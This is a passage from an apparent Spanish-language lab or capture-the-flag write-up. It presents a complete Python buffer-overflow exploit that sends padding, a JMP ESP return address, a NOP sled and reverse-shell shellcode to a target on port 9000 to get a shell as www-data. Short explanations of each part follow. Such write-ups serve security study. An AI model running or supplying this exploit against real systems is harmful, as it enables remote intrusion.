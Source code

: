 ### Obtener una shell como el usuario www-data

Por lo que crearemos un script para automatizar todo esto y tambien añadiremos en el script una cadena de `NOPS` para que salte todo hasta nuestro `shellcode` y se ejecute nuestra `rever shell`.

> step4.py

```python
#!/usr/bin/python3

import socket
from struct import pack

target_ip = "<IP>"
target_port = 9000

buffer_size = 22
padding = b"A" * buffer_size
jmp_esp_address = pack("<L", 0x0804948b)  # Dirección de JMP ESP obtenida con análisis previo.
nop_sled = b'\x90' * 32  # Pista de NOPs para mayor tolerancia.

# Shellcode personalizado para reverse shell
buf =  b""
buf += b"\xdb\xcb\xd9\x74\x24\xf4\xbf\x8e\x4f\x16\x01\x58"
buf += b"\x2b\xc9\xb1\x12\x83\xc0\x04\x31\x78\x13\x03\xf6"
buf += b"\x5c\xf4\xf4\x37\xb8\x0f\x15\x64\x7d\xa3\xb0\x88"
buf += b"\x08\xa2\xf5\xea\xc7\xa5\x65\xab\x67\x9a\x44\xcb"
buf += b"\xc1\x9c\xaf\xa3\x11\xf6\x55\x89\xfa\x05\x56\xf3"
buf += b"\x9b\x80\xb7\xbb\x3a\xc3\x66\xe8\x71\xe0\x01\xef"
buf += b"\xbb\x67\x43\x87\x2d\x47\x17\x3f\xda\xb8\xf8\xdd"
buf += b"\x73\x4e\xe5\x73\xd7\xd9\x0b\xc3\xdc\x14\x4b"

crafted_payload = padding + jmp_esp_address + nop_sled + buf

def send_payload():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((target_ip, target_port))
        sock.send(crafted_payload + b"\r\n")

if __name__ == '__main__':
    send_payload()
```

**Desbordamiento del buffer**: El payload comienza con `A`'s para llenar el buffer hasta alcanzar el `offset` donde se sobrescribe el `EIP` (`22` en este caso).

**Dirección de retorno**: Utilizamos la dirección de una instrucción `jmp esp` para redirigir la ejecución hacia nuestro `shellcode`. Esta dirección se obtiene mediante análisis del binario vulnerable usando herramientas como `gdb`.

**NOP sled**: Se añade una "`pista`" de `NOPs` (`\x90`) antes del `shellcode` para garantizar que cualquier variación en la dirección de salto no interfiera con la ejecución del `payload`.

Por lo que ahora tendremos que hacer lo siguiente:
